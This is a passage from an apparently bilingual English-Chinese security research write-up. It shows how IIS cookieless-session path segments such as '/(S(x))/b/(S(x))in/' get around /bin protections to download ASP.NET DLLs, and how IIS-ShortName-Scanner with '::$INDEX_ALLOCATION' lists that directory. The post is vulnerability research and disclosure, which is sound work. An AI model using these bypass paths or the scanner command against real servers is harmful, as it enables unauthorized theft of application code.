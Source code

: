 ## Scaling the POC 扩展 POC

It quickly became clear that the technique works on other servers. The setting runAllManagedModulesForAllRequests isn’t rare and I was able to download a few DLLs from different websites the same day.  
很快就清楚了，这项技术在其他服务器上也有效。设置 runAllManagedModulesForAllRequests 并不罕见，我能够在同一天从不同的网站下载一些 DLL。

The only thing I noticed is that it’s impossible to check the existence of the “/bin” directory:  
我注意到的唯一一件事是，无法检查“/bin”目录的存在：

```tcl
http://Y.Y.Y.Y/ - 200
http://Y.Y.Y.Y/bin - 404
http://Y.Y.Y.Y/bin/ - 404
http://Y.Y.Y.Y/bin/Navigator.dll - 404
http://Y.Y.Y.Y/(S(x))/b/(S(x))in  - 404
http://Y.Y.Y.Y/(S(x))/b/(S(x))in/ - 404
http://Y.Y.Y.Y/(S(x))/b/(S(x))in/Navigator.dll - 200
```

However, by applying IIS-ShortName-Scanner, you can not only check the existence of the “/bin” directory, but also discover its content:  
但是，通过应用 IIS-ShortName-Scanner，您不仅可以检查“/bin”目录的存在，还可以发现其内容：

![](assets/1710212462-0d2147200393c3a5ae6cb7dcb5fdd644.png)

Executing java -jar ./iis\_shortname\_scanner.jar 20 8 'https://X.X.X.X/bin::$INDEX\_ALLOCATION/'  
正在执行 java -jar。/iis\_shortname\_scanner.jar 20 8 'https：//X.X.X. X/bin：：$INDEX\_ALLOCATION/'
